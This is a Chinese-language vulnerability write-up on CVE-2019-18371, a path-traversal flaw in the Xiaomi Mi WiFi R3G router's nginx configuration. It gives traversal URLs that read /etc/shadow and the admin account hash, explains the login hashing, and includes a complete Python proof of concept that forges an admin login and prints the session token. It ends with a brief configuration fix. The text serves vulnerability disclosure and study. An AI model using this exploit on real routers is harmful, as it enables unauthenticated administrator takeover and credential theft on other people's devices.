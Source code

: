 # (CVE-2019-18371)Xiaomi Mi WiFi R3G 任意文件读取漏洞

## 一、漏洞简介

Xiaomi Mi WiFi R3G是中国小米科技（Xiaomi）公司的一款3G路由器。 Xiaomi Mi WiFi R3G 2.28.23-stable之前版本中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。

## 二、漏洞影响

Xiaomi Mi WiFi R3G 2.28.23-stable之前版本

## 三、复现过程

#### 小米路由器的nginx配置文件错误，导致目录穿越漏洞，实现任意文件读取（无需登录）

nginx配置不当可导致目录穿越漏洞，

```
location /xxx {
  alias /abc/;
}
```

可通过访问`http://domain.cn/xxx../etc/passwd`实现目录穿越访问上级目录及其子目录文件。

在小米路由器的文件`/etc/sysapihttpd/sysapihttpd.conf`中，存在

```
location /api-third-party/download/extdisks {
	alias /extdisks/;
}
```

故可以任意文件读取根目录下的所有文件，而且是root权限，如访问`http://192.168.31.1/api-third-party/download/extdisks../etc/shadow`

[![image-20200904224803971](../resource/（CVE-2019-18371）%20Xiaomi%20Mi%20WiFi%20R3G%20任意文件读取漏洞/media/image-20200904224803971.png)](https://www.ol4three.com/2020/09/12/IOT/Exploit/小米/CVE-2019-18371-Xiaomi-Mi-WiFi-R3G-远程命令执行漏洞/image-20200904224803971.png)

[image-20200904224803971](https://www.ol4three.com/2020/09/12/IOT/Exploit/小米/CVE-2019-18371-Xiaomi-Mi-WiFi-R3G-远程命令执行漏洞/image-20200904224803971.png)



类似的问题，存在多处如

```
location /backup/log {
	alias /tmp/syslogbackup/;
}

location /api-third-party/download/public {
	alias /userdisk/data/;
}
location /api-third-party/download/private {
	alias /userdisk/appdata/;
}
```

#### 通过任意文件读取，登录路由器后台

不是明文存储密码，进行一定分析。关注两个过程，一是登录时前端js生成http post请求参数过程，二是验证用户登陆的后端过程。

登录时前端js生成http post请求参数过程

```
var Encrypt = {
    key: 'a2ffa5c9be07488bbb04a3a47d3c5f6a',
    iv: '64175472480004614961023454661220',
    nonce: null,
    init: function(){
        var nonce = this.nonceCreat();
        this.nonce = nonce;
        return this.nonce;
    },
    nonceCreat: function(){
        var type = 0;
        // 自己的mac地址
        var deviceId = '<%=mac%>';
        var time = Math.floor(new Date().getTime() / 1000);
        var random = Math.floor(Math.random() * 10000);
        return [type, deviceId, time, random].join('_');
    },
    oldPwd : function(pwd){ // oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))
        return CryptoJS.SHA1(this.nonce + CryptoJS.SHA1(pwd + this.key).toString()).toString();
    },
  //...
};
```

可知`oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))`，登陆请求包为

```
POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1
Host: 192.168.31.1

username=admin&password=c9e62da7b8a0b7a4918c5a90912ba81a9717f9ab&logtype=2&nonce=0_mac地址_时间戳_5248
```

验证用户登陆的后端过程

调用`XQSecureUtil.checkUser`函数

```
function checkUser(user, nonce, encStr)
    -- 从xiaoqiang 配置文件中读取信息
    local password = XQPreference.get(user, nil, "account")
    if password and not XQFunction.isStrNil(encStr) and not XQFunction.isStrNil(nonce) then
        if XQCryptoUtil.sha1(nonce..password) == encStr then
            return true
        end
    end
    XQLog.log(4, (luci.http.getenv("REMOTE_ADDR") or "").." Authentication failed", nonce, password, encStr)
    return false
end
```

跟进`XQPreference.get`函数易知道是从`/etc/config/account`文件中读取某个字符串，这里称它为`accountStr`。

`checkUser`函数判断等式为(encStr为参数oldPwd)

```
sha1(nonce + sha1(密码 + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))
==
sha1(nonce + accountStr)
```

则

```
accountStr == sha1(密码 + 'a2ffa5c9be07488bbb04a3a47d3c5f6a')
```

故，只需要读取`/etc/config/account`得到`accountStr`即可构造如下数据包登陆

```
POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1
Host: 192.168.31.1

username=admin&password=sha1(nonce + account中保存的字符串)&logtype=2&nonce=0_mac地址_时间戳_5248
```

实现任意登陆poc

arbitrary_file_read_vulnerability.py

```
import os
import re
import time
import base64
import random
import hashlib
import requests
from Crypto.Cipher import AES

# proxies = {"http":"http://127.0.0.1:8080"}
proxies = {}

def get_mac():
	## get mac
	r0 = requests.get("http://192.168.31.1/cgi-bin/luci/web", proxies=proxies)
	mac = re.findall(r'deviceId = \'(.*?)\'', r0.text)[0]
	# print(mac)	
	return mac

def get_account_str():
	## read /etc/config/account
	r1 = requests.get("http://192.168.31.1/api-third-party/download/extdisks../etc/config/account", proxies=proxies)
	print(r1.text)
	account_str = re.findall(r'admin\'? \'(.*)\'', r1.text)[0]
	return account_str

def create_nonce(mac):
	type_ = 0
	deviceId = mac
	time_ = int(time.time())
	rand = random.randint(0,10000)
	return "%d_%s_%d_%d"%(type_, deviceId, time_, rand)

def calc_password(nonce, account_str):
	m = hashlib.sha1()
	m.update((nonce + account_str).encode('utf-8'))
	return m.hexdigest()

mac = get_mac()
account_str = get_account_str()
## login, get stok
nonce = create_nonce(mac)
password = calc_password(nonce, account_str)
data = "username=admin&password={password}&logtype=2&nonce={nonce}".format(password=password,nonce=nonce)
r2 = requests.post("http://192.168.31.1/cgi-bin/luci/api/xqsystem/login", 
	data = data, 
	headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0",
		"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"},
	proxies=proxies)
# print(r2.text)
stok = re.findall(r'"token":"(.*?)"',r2.text)[0]
print("stok="+stok)
```

> 可以获取到登录的stok

[![image-20200904234409100](../resource/（CVE-2019-18371）%20Xiaomi%20Mi%20WiFi%20R3G%20任意文件读取漏洞/media/image-20200904234409100.png)](https://www.ol4three.com/2020/09/12/IOT/Exploit/小米/CVE-2019-18371-Xiaomi-Mi-WiFi-R3G-远程命令执行漏洞/image-20200904234409100.png)

[image-20200904234409100](https://www.ol4three.com/2020/09/12/IOT/Exploit/小米/CVE-2019-18371-Xiaomi-Mi-WiFi-R3G-远程命令执行漏洞/image-20200904234409100.png)



## 修复方案

## 任意文件读取

将`/etc/sysapihttpd/sysapihttpd.conf`中的形如以下形式修改为

```
location /xxx {
  alias /abc/;
}
```

修改为

```
location /xxx/ {
  alias /abc/;
}
```

## 参考链接

> https://github.com/UltramanGaia/Xiaomi_Mi_WiFi_R3G_Vulnerability_POC/blob/master/report/report.md